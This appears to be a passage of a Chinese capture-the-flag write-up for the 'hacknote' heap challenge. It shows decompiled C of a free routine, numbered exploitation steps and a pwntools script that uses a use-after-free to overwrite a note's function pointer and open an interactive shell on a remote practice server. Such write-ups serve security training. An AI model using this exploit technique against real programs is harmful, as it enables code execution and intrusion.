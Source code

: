 ```c
  {
    free(*(void **)(*((_DWORD *)&notelist + v2) + 4));
    free(*((void **)&notelist + v2));
    result = puts("Success");
  }
  return result;
}
```

利用思路：

1、申请note0，context大小为8

2、释放note0

3、释放note0

5、申请note1，设置context大小为40

6、向note1的context的chunk写入magic地址

7、输出note1

exp

```python
from pwn import *

context(os='linux',arch='i386',log_level='debug')

#io = process("./hacknote")
io = remote("node4.buuoj.cn","27929")

io.sendafter("Your choice :",'1')
io.sendafter("Note size :",'8')
io.sendafter("Content :",'aaaa')

io.sendafter("Your choice :",'2')
io.sendafter("Index :",'0')

io.sendafter("Your choice :",'2')
io.sendafter("Index :",'0')

io.sendafter("Your choice :",'1')
io.sendafter("Note size :",'40')
io.sendafter("Content :",'aaaa')

system_plt = 0x80484a0
bin_io = 0x8048bd0
magic = 0x8048945

payload = p32(magic) + p32(0x0)
io.sendafter("Your choice :",'1')
io.sendafter("Note size :",'8')
io.sendafter("Content :",payload)

#gdb.attach(io)

io.sendafter("Your choice :",'3')
io.sendafter("Index :",'1')

io.interactive()
```

